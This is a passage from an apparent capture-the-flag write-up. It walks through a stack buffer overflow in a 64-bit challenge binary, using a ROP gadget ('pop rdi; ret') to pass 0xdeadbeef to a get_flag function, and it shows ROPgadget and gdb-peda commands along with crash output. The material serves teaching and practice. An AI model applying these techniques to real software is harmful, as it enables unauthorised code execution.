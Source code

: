 With this address we can now overwrite the return address on the stack with the address of the get_flag function but we also need to pass it the parameter value of 0xdeadbeef or the function will just exit without spawning a shell. Because this is a 64bit executable, function parameters are passed using registers (as opposed to 32 bit programs, where parameters are pushed to the stack). The first parameter is placed in RDI, the second in RSI, the third in RDX, and then RCX, R8 and R9. Only the 7th argument and onwards are passed on the stack. We need a way to push the value of 0xdeadbeef into the RDI register before calling the get_flag function.

To do this we will need to execute a "return-oriented programming" (ROP) chain attack, where we will call and execute machine code sequences that are already present in the program. These sequences of codes are called "gadgets", and we need one that pops a value to RDI (which we will set to be 0xdeadbeef) and then returns the flow back to our stack again.

I ran a program called ROPgadget on the pwnable executable to do this.

```
tmp@localhost:~/ctf/utctf/bof$ ROPgadget --ropchain --binary pwnable > rop.txt
```

The resulting text file (rop.txt) listed a lot of different ROP gadgets found in our program, and among those was the one I was looking for:

```
0x0000000000400693 : pop rdi ; ret
```
So if we overflow the stack to set the return address to point to 0x400693, the program will jump to this address in the code, pop the next value on the stack into the RDI register (and because we control the stack, we can make sure that value is 0xdeadbeef), and then return to the next value on the stack, which we will set to the address of the get_flag function (0x4005ea)

The last thing we need to do is to confirm exactly how many bytes we need to write before we will start overwriting the return address on the stack. There are a few ways to do this but the easiest is to use a long De Bruijn sequence to overflow the buffer and then search for that pattern offset in our overflowed return address buffer.

Create the pattern in GDB Peda and then save the output in a text file (in.txt):

```
gdb-peda$ pattern_create 400 in.txt
Writing pattern of 400 chars to filename "in.txt"
```

Run the pwnable program in gdb, using the De Bruijn sequence as an input:

```
gdb-peda$ r < in.txt
Starting program: /home/tmp/ctf/utctf/bof/pwnable < in.txt
I really like strings! Please give me a good one!
Thanks for the string

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x1 
RBX: 0x0 
RCX: 0x7ffff7ee3904 (<__GI___libc_write+20>:    cmp    rax,0xfffffffffffff000)
RDX: 0x7ffff7fb4580 --> 0x0 
RSI: 0x6022a0 ("Thanks for the string\n Please give me a good one!\n")
RDI: 0x0 
RBP: 0x41414e4141384141 ('AA8AANAA')
RSP: 0x7fffffffe158 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA"...)
RIP: 0x4005e9 (<main+51>:       ret)
R8 : 0x16 
R9 : 0x7fffffffe140 ("6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA"...)
R10: 0x60298f --> 0x0 
R11: 0x246 
```